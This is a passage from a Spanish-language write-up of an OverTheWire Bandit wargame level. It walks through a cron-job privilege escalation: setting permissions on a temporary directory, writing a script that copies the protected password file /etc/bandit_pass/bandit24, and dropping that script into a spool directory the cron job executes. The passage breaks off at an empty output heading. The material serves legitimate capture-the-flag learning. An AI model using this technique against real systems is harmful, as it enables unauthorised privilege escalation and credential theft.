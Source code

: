 
### **4. Creación del script de explotación:**

#### **Preparar entorno temporal:**

```bash
cd $(mktemp -d)
touch script.sh
chmod o+x script.sh
chmod o+wx ./
```

- **mktemp -d:** *Crea un directorio temporal.*
- **touch script.sh:** *Crea el archivo del script.*
- **chmod o+x script.sh:** *Da permisos de ejecución al script.*
- **chmod o+wx ./:** *Permite escritura y ejecución en el directorio.*

---

### **5. Creación del script:**

```bash
nano script.sh
```

**Contenido del script:**

```bash
#!/usr/bin/env bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.2KwDUD75Qy/d4nipwned.txt
exit 0
```

- **cat /etc/bandit_pass/bandit24 > /tmp/tmp.2KwDUD75Qy/d4nipwned.txt:** *Copia la contraseña del archivo protegido a un archivo en el directorio temporal.*
  
---

### **6. Copiar el script al directorio monitoreado:**

```bash
cp ./script.sh /var/spool/bandit24/foo/script.sh -v
```

- *Copia el script al directorio `/var/spool/bandit24/foo/` para que el cron job lo ejecute.*

---

### **7. Monitorear la ejecución del script:**

```bash
watch -n 1 ls -l
```

- **watch -n 1 ls -l:** *Revisa cada segundo el contenido del directorio para detectar cambios.*

#### **Salida:**
